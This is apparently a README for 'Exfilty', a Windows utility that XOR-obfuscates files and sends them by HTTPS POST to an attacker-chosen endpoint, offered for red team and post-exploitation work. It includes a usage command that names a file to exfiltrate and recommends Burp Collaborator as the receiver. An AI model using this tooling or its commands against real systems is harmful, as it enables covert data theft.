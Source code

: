 # Exfilty

**Exfilty** is a lightweight file exfiltration utility for Windows environments, designed for use in controlled environments such as red team operations, malware analysis labs, and post-exploitation research.

The tool performs HTTPS POST-based file transfer to a specified endpoint, applying a simple XOR cipher to obfuscate the file contents in transit.

---

## Features

- Minimal and portable Windows executable
- XOR-based payload encoding (configurable key)
- HTTPS POST with custom User-Agent
- Designed for silent file transfers in restricted environments
- Output fully reconstructable via provided Python script

---

## Usage
```bash
exfilty.exe <https://your_endpoint> <file_to_exfiltrate/transfer>  # BurpSuite Collaborator recommended
```

The tool will read the file, apply XOR encryption using a predefined key, and send the result via HTTPS POST to the specified endpoint.

---

## Encryption Logic

Exfilty uses a symmetric XOR cipher with a static key (`secreta123` by default). This key must match on both ends of communication (sender and receiver).

You can reconstruct the original file using the provided `remounter.py` script:

```bash
python3 remounter.py <encrypted_file> <output_file>
